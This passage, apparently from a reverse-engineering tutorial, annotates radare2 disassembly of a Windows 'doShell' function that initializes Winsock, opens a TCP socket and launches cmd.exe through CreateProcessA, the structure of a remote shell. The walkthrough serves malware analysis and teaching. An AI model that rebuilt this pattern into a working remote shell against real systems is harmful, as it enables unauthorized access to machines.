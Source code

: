 ````
|      |    0x004016f6      41b800000000   mov r8d, 0
|      |    0x004016fc      4889c2         mov rdx, rax
|      |    0x004016ff      b900000000     mov ecx, 0
|      |    0x00401704      488b059d6b00.  mov rax, qword sym.imp.KERNEL32.dll_CreateProcessA ; [0x4082a8:8]=0x84da reloc.KERNEL32.dll_CreateProcessA
|      |    0x0040170b      ffd0           call rax
|      |    0x0040170d      488b45e0       mov rax, qword [local_20h_2]
|      |    0x00401711      baffffffff     mov edx, 0xffffffff         ; -1
|      |    0x00401716      4889c1         mov rcx, rax
|      |    0x00401719      488b05486c00.  mov rax, qword sym.imp.KERNEL32.dll_WaitForSingleObject ; [0x408368:8]=0x86d4 reloc.KERNEL32.dll_WaitForSingleObject
|      |    0x00401720      ffd0           call rax
|      |    0x00401722      488b45e0       mov rax, qword [local_20h_2]
|      |    0x00401726      4889c1         mov rcx, rax
|      |    0x00401729      488b05706b00.  mov rax, qword sym.imp.KERNEL32.dll_CloseHandle ; [0x4082a0:8]=0x84cc reloc.KERNEL32.dll_CloseHandle
|      |    0x00401730      ffd0           call rax
|      |    0x00401732      488b45e8       mov rax, qword [local_18h]
|      |    0x00401736      4889c1         mov rcx, rax
|      |    0x00401739      488b05606b00.  mov rax, qword sym.imp.KERNEL32.dll_CloseHandle ; [0x4082a0:8]=0x84cc reloc.KERNEL32.dll_CloseHandle
|      |    0x00401740      ffd0           call rax
|      |    0x00401742      488b85280200.  mov rax, qword [arg_228h]   ; [0x228:8]=-1 ; 552
|      |    0x00401749      4889c1         mov rcx, rax
|      |    0x0040174c      488b052d6b00.  mov rax, qword sym.imp.WS2_32.dll_closesocket ; [0x408280:8]=0x84aa reloc.WS2_32.dll_closesocket
|      |    0x00401753      ffd0           call rax
|      |    0x00401755      488b05fc6a00.  mov rax, qword sym.imp.WS2_32.dll_WSACleanup ; [0x408258:8]=0x8460 reloc.WS2_32.dll_WSACleanup ; "`\x84"
|      |    0x0040175c      ffd0           call rax
|      |    0x0040175e      488d0dbf2800.  lea rcx, str.shell_closed   ; 0x404024 ; "shell closed "
|      |    0x00401765      e866150000     call sym.puts               ; int puts(const char *s)
|      |    ; JMP XREF from 0x00401669 (sym.doShell)
|      `--> 0x0040176a      90             nop
|           0x0040176b      4881c4b00200.  add rsp, 0x2b0
|           0x00401772      5d             pop rbp
\           0x00401773      c3             ret
[0x00401550]>
```
So we start by seeing "cmd.exe" being initialized inside local_28h:

```
|           0x00401558      488dac248000.  lea rbp, [local_80h]        ; 0x80 ; 128
|           0x00401560      48b8636d642e.  movabs rax, 0x6578652e646d63
|           0x0040156a      488945d8       mov qword [local_28h], rax
```
On situations like this, you may want to use something like afvn to rename that variable to cmdExe or something like that, especially on large programs.

Then the WSAStartup call
```
|           0x0040157d      488b05f46c00.  mov rax, qword sym.imp.WS2_32.dll_WSAStartup ; [0x408278:8]=0x849c reloc.WS2_32.dll_WSAStartup
|           0x00401584      ffd0           call rax
|           0x00401586      c74424280000.  mov dword [local_28h_2], 0
|           0x0040158e      c74424200000.  mov dword [local_20h], 0
|           0x00401596      41b900000000   mov r9d, 0
```
And an internet socket is created (0,6,1,2)

```
|           0x0040158e      c74424200000.  mov dword [local_20h], 0
|           0x00401596      41b900000000   mov r9d, 0
|           0x0040159c      41b806000000   mov r8d, 6
````